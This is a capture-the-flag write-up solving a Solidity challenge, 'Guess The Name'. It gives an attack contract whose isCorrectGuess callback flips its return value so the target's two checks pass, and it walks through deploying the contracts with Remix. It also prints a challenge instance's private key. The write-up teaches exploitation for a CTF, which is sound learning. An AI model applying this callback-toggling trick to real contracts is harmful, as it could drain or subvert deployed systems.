







# Blockchain/Guess The Name


We got second blood and only 2 teams solved it at the end. I learned so much while solving this challenge but I got deep understanding after writing this writeup.

### setup.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./Chal.sol";
contract Setup {
    Challenge public immutable instance;
    constructor() payable {
        instance = new Challenge();
    }
    function isSolved() public view returns (bool) {
        return instance.win();
    }
}
```

### Chall.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
interface Checker {
    function isCorrectGuess(uint256) external returns (bool);
}
contract Challenge {
    bool public win;
    uint256 public guess;
    function makeAGuess(uint256 _guess) public {
        Checker checker = Checker(msg.sender);
        if (!checker.isCorrectGuess(_guess)) {
            guess = _guess;
            win = checker.isCorrectGuess(guess);
        }
    }
}
```

we got a server which will manage instance for our challenge at by generating a secret from `get_ticket.py` 
`nc blockchain.bbctf.fluxus.co.in 5001`



launch a instance and you will get 
``` python
uuid = "5759cffc-c638-451e-b41b-b8a15469ad49"
rpc_endpoint = "http://chal.bbctf.fluxus.co.in:8545/5759cffc-c638-451e-b41b-b8a15469ad49"
privatekey = "0xa9622978b37457dc8d5bb76996c8a166bc04fe8db0907dcba98ee7d7f4009f35"
youraddress = "0x5f20EdbCAa04777a636fF9564Ea9a96bA82af5A4"
setupcontract = "0x9C7fF8BCF007AA7041346f1c68C149b1469eA983"
```
## Analysis
- In `setup.sol` if you call `instance` it will return the address of the challalange contract.
- `chall.sol` has weird behaviour first it will check weather checker `isCorrectGuess(_guess)` is `false` and to win next step it should be `true`.
-  `msg.sender` is address of sender so defiantly we have to make a exploit contract.
- we have something called interface which we will get back to it later.
## Research
I don't know much about solidity so I started learning how interface works.

[Contracts — Solidity 0.8.17 documentation (soliditylang.org)](https://docs.soliditylang.org/en/v0.8.17/contracts.html#interfaces)


<iframe title="Interface | Solidity 0.8" src="https://www.youtube.com/embed/tbjyc-VQaQo?feature=oembed" height="113" width="200" allowfullscreen="" allow="fullscreen" style="aspect-ratio: 1.76991 / 1; width: 100%; height: 100%;"></iframe>


<iframe title="Solidity Exercises 29: Contract Interaction: Interface and Import" src="https://www.youtube.com/embed/hzH6fgKhSMg?feature=oembed" height="113" width="200" allowfullscreen="" allow="fullscreen" style="aspect-ratio: 1.76991 / 1; width: 100%; height: 100%;"></iframe>


Here is quick summary
- You can use contract address to directly talk with the contract instead of importing or adding its code to our contact.
- In this challenge we have to specify the address of the interface contract with `msg.sender`.

## Exploit planning

we have to make a new contract which will call `makeAGuess` in `chall.sol` due to that  `isCorrectGuess`  in same contract should be called which initially returns `false` and in next call it should return `true`.

### exploit.sol
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
import "./Chal.sol";
contract Attack{
    bool public retBool = true;
    Challenge public target;
    constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
    function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
    function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
}
```
ok! it overwelming let's see it line by line
```solidity
import "./Chal.sol";
```
refrence with `setup.sol` we can get a instance of challange 

lets see `Attack` contract line by line.
```solidity
Challenge public target;
bool public retBool = true;
```
here we are making a object of `Challenge` class so that we can call `makeAGuess`.
next a toggler to return bool value
```solidity
 constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
```
`target = Challenge(_targetAddress);` will create a reference to the contract `Challenge`. Doing so allows you to call public functions of that contract. Now you can call `target.whateverFunctionItHas()` which will call the function on the contract at the address.
```solidity
function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
```
this function when called frist time returns `false` and next time return `true`
```solidity
function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
```
this function initaits our attack by calling `target.makeAGuess(_guess)`->`!checker.isCorrectGuess(_guess)` ->`checker.isCorrectGuess(_guess)`-> win is True now

## Exploit!!!



Add your PRC Url and ChainId



import your account to metamask



now open Remix connect it with your wallet and account. interact with deployed setup contract by pasting its address to `AtAddress` input box with `setup_contract` address by opening `setup.sol`
now you will get address of challenge.



now add Challenge contract which you can have to interact.



now lets deploy attack contract by giving address which we got from instance in setup.



just give some value to `guessIt` and call get the flag by connecting to server and clicking on get flag with your `team_secret`


FLAG:
	`flag{A1l_17s_r3quirED_is_a_1iI7lE_5oliDity}`
